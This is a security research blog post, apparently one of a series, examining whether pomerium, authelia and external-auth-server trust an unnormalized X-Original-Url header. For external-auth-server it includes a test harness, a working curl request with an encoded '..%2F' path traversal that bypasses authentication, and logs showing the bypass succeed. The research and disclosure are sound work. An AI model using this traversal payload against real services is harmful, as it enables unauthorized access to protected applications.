 ```yaml
---
title: "Hunting for buggy authentication/authorization services on github"
date: 2021-11-28T10:58:59+01:00
draft: false
tags: [kubernetes, ingress, nginx, path-traversal]
---
```


{{< figure src="https://user-images.githubusercontent.com/17719543/139592951-0fafc921-437e-4bb7-b0ee-199dd72b36c3.png" class="image-center" >}}

To successful bypass access control using path traversal in `$request_uri`, you need to have buggy authentication/authorization service. Buggy in a way it's not normalizing url/uri that is part of access control decision. Let me find more of those on github that are relying on `X-Original-Url`. There is high chance that this header is populated from `$request_uri` variable and not protected in any way.

## pomerium

>Pomerium is an identity-aware proxy that enables secure access to internal applications.

In research I was using pomerium in version **0.15.5**.

Let's look into code. Here is how `X-Original-Url` header is used:

{{< figure src="https://user-images.githubusercontent.com/17719543/139598398-f7236d2f-a6a6-4cc3-8d4e-b384a4f702d7.png" >}}

Later this `originalURL` is taking part in decision based on polices. Policy definition can include path, which is key information here:

{{< figure src="https://user-images.githubusercontent.com/17719543/139598428-2a91dfde-897e-47a1-a5ea-b6b73b7f0f4f.png" >}}

As you can see there are two possibilities interesting for exploitation: `Prefix` and `Regex`.

In official docs you can find how to specify such policy:

{{< figure src="https://user-images.githubusercontent.com/17719543/139598445-2bf29761-e9a4-4738-a5e4-927e716baf60.png" >}}

For now I'm not going to exploit it further as it quite complicated to setup environment for it. I cannot be 100% sure for successful exploitation, but I have strong indicators in code that it will occur.

## authelia

>Authelia is an open-source authentication and authorization server providing two-factor authentication and single sign-on (SSO) for your applications via a web portal. It acts as a companion for reverse proxies like nginx, Traefik or HAProxy to let them know whether requests should either be allowed or redirected to Authelia's portal for authentication.

In research I was using authelia in version **4.32.2**.

The official description of the authelia perfectly matching my exploitation scenario. I just need to have policy based on path and no defense on `X-Original-Url` header.

Let's check code first:

{{< figure src="https://user-images.githubusercontent.com/17719543/139598518-85f428db-bafc-4bcb-ae49-9b108f2cabd6.png" >}}

`X-Original-Url` header is take from request without much of validation and placed later as `targetURL`:

{{< figure src="https://user-images.githubusercontent.com/17719543/139598541-334a5da0-1dc5-4aea-8eb2-f5459cf23db5.png" >}}

After that `targetURL` is part of logic to make decision whether request is passed as is or required to be authenticated:

{{< figure src="https://user-images.githubusercontent.com/17719543/139598551-7038031f-6d80-450b-adb8-94439b31b35d.png" >}}

In official documentation there is example of rule using in resource regex:

{{< figure src="https://user-images.githubusercontent.com/17719543/139598563-4f497082-bd4d-4079-bb18-643631c40178.png" >}}

For me, this case is very similar to pomerium. I will also not go deeper for now in exploitation. It's visible for me, that authelia has strong indicator for successful exploitation, but one more time I cannot be 100% sure.

## travisghansen/external-auth-server

[travisghansen/external-auth-server](https://github.com/travisghansen/external-auth-server) has primary function to help Kubernetes users to deal with different authentication schemas. In [documentation](https://github.com/travisghansen/external-auth-server/blob/master/PLUGINS.md#request_js) I could find ideal case for bypass. It's using `request_js` plugin to make decision based on `X-Original-Url` header:

{{< figure src="https://user-images.githubusercontent.com/17719543/139594490-48b32b0d-0631-49a7-b2c6-0de034871102.png" >}}

To be sure, whether any normalization is in place, I have checked code that is making this `parentReqInfo` object:

It's in [utils.js](https://github.com/travisghansen/external-auth-server/blob/10ad9710390f38803de92f67e611a568e8d2c79f/src/utils.js#L119) in function `get_parent_request_info`:

{{< figure src="https://user-images.githubusercontent.com/17719543/139594519-9c3caaa2-e1d9-4e8a-b9cf-c2f59885ba4e.png" >}}

I had some problems to run travisghansen/external-auth-server in Kubernetes. Mostly because it's quite complicated. So to really verify if it's vulnerable, I have copied part of utils.js and tested only it:

```javascript
'use strict';

const express = require('express');
const utils = require('./utils')

// Constants
const PORT = 8080;
const HOST = '0.0.0.0';

// App
const app = express();
app.get('/verify', (req, res) => {
    console.log(req.headers);

    const parentReqInfo = utils.get_parent_request_info(req);

    console.log(parentReqInfo);

    if (parentReqInfo.parsedUri.path.startsWith('/public-service/')) {
        res.statusCode = 200;
        res.send();
    }

    const apiKey = req.headers['X-Api-Key'];
    if (apiKey == "secret-api-key") {
        res.statusCode = 200;
        res.send();
    }

    res.statusCode = 401;
    res.send();
});

app.listen(PORT, HOST);
console.log(`Running on http://${HOST}:${PORT}`);
```

First send request using curl:

```bash
curl -v http://app.test/public-service/..%2Fprotected-service/protected
```

Next check logs of `auth-service`:

```bash
kubectl logs auth-service-node-859ccc54cc-8cnlp -f
```

```
{
    'x-request-id': 'afd1f7fbc4c45c2db17cc1f72c5ec834', 
    host: 'auth-service-node.default.svc.cluster.local', 
    'x-original-url': 'http://app.test/public-service/..%2Fprotected-service/protected', 
    'x-original-method': 'GET', 
    'x-real-ip': '172.17.0.1', 
    'x-forwarded-for': '172.17.0.1'
},
{
    uri: 'http://app.test/public-service/..%2Fprotected-service/protected', 
    parseduri: {
        scheme: 'http', 
        userinfo: undefined, 
        host: 'app.test', 
        port: undefined, 
        path: "/public-service/..%2Fprotected-service/protected", 
        query: undefined, 
        fragment: undefined, 
        reference: 'absolute'
    },
    parsedQuery: {}, 
    method: 'GET'
}
```

First `{…}` is from `console.log(req.headers)` and second `{…} `is from `console.log(parentReqInfo)`. Path is not normalized and wrong decision is made.

{{< figure src="https://user-images.githubusercontent.com/17719543/139594597-49abb40e-7afb-40fb-b4b4-211f871479f0.png" >}}

I got protected data. One more time 😅

## Summary

I have found three repositories that are using `X-Original-Url` header and are not protecting against manipulation.

### Other articles from this series

* [CVE-2021-43557: Apache APISIX: Path traversal in request_uri variable]({{< ref "/posts/CVE_2021_43557_Apache_APISIX_Path_traversal_in_request_uri_variable.md" >}})
* [Path traversal in authorization context in Traefik and HAProxy]({{< ref "/posts/path_traversal_in_authorization_context_in_Traefik_and_HAProxy.md" >}})
* [Path traversal in authorization context in Emissary]({{< ref "/posts/path_traversal_in_authorization_context_in_Emissary.md" >}})
* [Path traversal in authorization context in Kong and F5 NGINX]({{< ref "/posts/path_traversal_in_authorization_context_in_Kong_and_F5_NGINX.md" >}})
* [Bug bounty tips for nginx $request_uri path traversal bypass]({{< ref "/posts/bug_bounty_tips_for_nginx_request_uri_path_traversal_bypass.md" >}})

---

Thanks for reading! You can follow me on [Twitter](https://twitter.com/xvnpw).